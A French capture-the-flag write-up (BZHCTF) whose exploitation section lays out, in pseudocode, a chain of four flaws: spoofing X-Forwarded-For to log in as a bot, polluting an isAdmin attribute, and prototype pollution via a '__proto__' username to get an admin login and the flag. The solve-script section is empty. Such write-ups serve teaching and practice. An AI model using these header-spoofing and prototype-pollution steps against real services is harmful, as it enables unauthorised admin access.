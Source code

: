 ## Exploitation

Nous n'allons pas pouvoir tout faire avec un seul client. Certaines failles agissent sur d'autres clients que soit-même. On va devoir créer plusieurs clients en parallèle pour enchainer les vulnérabilités :

```pseudocode
# Client_A sera notre client lambda qui sera transformé en admin
(UNAUTHENTICATED) Client_A = connect()
(UNAUTHENTICATED) Client_A -call-> Login
(USER) Client_A est désormait un user lambda

# Client_B sera notre bot en utilisant le bypass de contrôle d'IP source
(UNAUTHENTICATED) Client_B = connect()
(UNAUTHENTICATED) Client_B -call-> LoginAsBot # X-Forwarded-For=127.0.0.1
(BOT) Client_B est désormait un Bot ! Faille n.1

(BOT) Client_B -call-> reportClient{ username: client_A, reason: 'isAdmin' }
# Faille n.3 : Pollution de l'attribut isAdmin de l'objet Client
(ADMIN) Client_A est désormait ADMIN !

(UNAUTHENTICATED) Client_C = connect()
(UNAUTHENTICATED) CLient_C -call-> Login{ username: '__proto__' }
(USER) Client_C est désormait un user lambda avec le username __proto__
(USER) Client_C -call-> sendMessage(){ content: 'isAdmin' }

# On utilise notre client_B qui est un bot pour report l'utilisateur C
# C'est nécessaire car un admin ne peut pas banir sans qu'un bot ait d'abbord report
(BOT) Client_B -call-> reportClient(){ username: '__proto__', reason: 'NUDITY' }

# Puis on utilise notre client_A qui est un admin pour bannir l'utilisateur C
# On doit faire référence à un message envoyé par le client
(ADMIN) Client_A -call-> banClient(){ message: 'isAdmin', reason: 'whatever' }

# C'est l'heure d'éxecuter notre pollution de prototype (faille n.4)
(ADMIN) Client_A -call-> getBanList()
# La méthode getCanceledPeople va polluer notre object list de la manière suivante :
# list[username][message] = reason;
# avec username='__proto__',  message='isAdmin' et reason='whatever'
# Notre prototype est pollué !

# Pour finir on créer un dernier client qui va tenter de se connecter en admin
(UNAUTHENTICATED) Client_D = connect()
(UNAUTHENTICATED) Client_D -call-> loginAsAdmin() { username: 'a', password: 'b' }
# if (client.isAdmin) => Comme isAdmin n'est pas défini, on récupère la valeur du prototype
# qui vaut "whatever". On exploit alors la faiblesse n.2

(ADMIN) Client_D "Welcome home admin, BZHCTF{DontPutUserInputIntoYourKeys}"
```

## Script de solve
